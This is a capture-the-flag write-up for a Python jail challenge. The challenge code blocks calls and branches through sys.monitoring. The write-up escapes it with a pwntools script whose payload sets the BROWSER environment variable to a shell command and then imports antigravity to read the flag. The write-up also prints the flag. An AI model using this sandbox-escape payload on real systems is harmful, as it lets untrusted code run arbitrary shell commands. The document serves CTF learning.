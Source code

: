 # computer-monitor

```
so i bought a computer monitor from the store recently for my computer but i think now i need to buy a new computer as well

nc challs2.pyjail.club 28684
```

Attachment:

```python
#!/usr/local/bin/python3

import sys
from os import _exit

sm = sys.monitoring
sm.use_tool_id(2, 'computer-monitor')

inp = input('> ')
code = compile(inp, '<string>', 'exec')

exit_hook = lambda *a: _exit(0)
sm.set_local_events(2, code, sm.events.BRANCH + sm.events.CALL)
sm.register_callback(2, sm.events.BRANCH, exit_hook)
sm.register_callback(2, sm.events.CALL, exit_hook)
exec(code, {}, {})
```

It attachs `BRANCH` and `CALL` hooks to our code. However, `import` is not restried. Following [pyjail cheatsheet](https://shirajuki.js.org/blog/pyjail-cheatsheet/), we can get shell if we have access to environ and `import`:

```python
from pwn import *

context(log_level="debug")

#p = process(["python3", "main.py"])
p = remote("challs2.pyjail.club", 28684)
p.recvuntil(b"> ")
p.sendline(b"""import os;os.environ['BROWSER']='/bin/sh -c "cat flag.txt" #%s';import antigravity""")
p.interactive()
```

Flag: `jail{i_am_proto_your_security_is_my_motto_install_me_on_your_computer_to_protect_your_data_better_f6b37a6e6d0b0af2b5da77a61cd0af7c}`.

An elegant and simple solution is provided by @mirelgigel at [mirelgigel/writeupjailctf](https://github.com/mirelgigel/writeupjailctf).
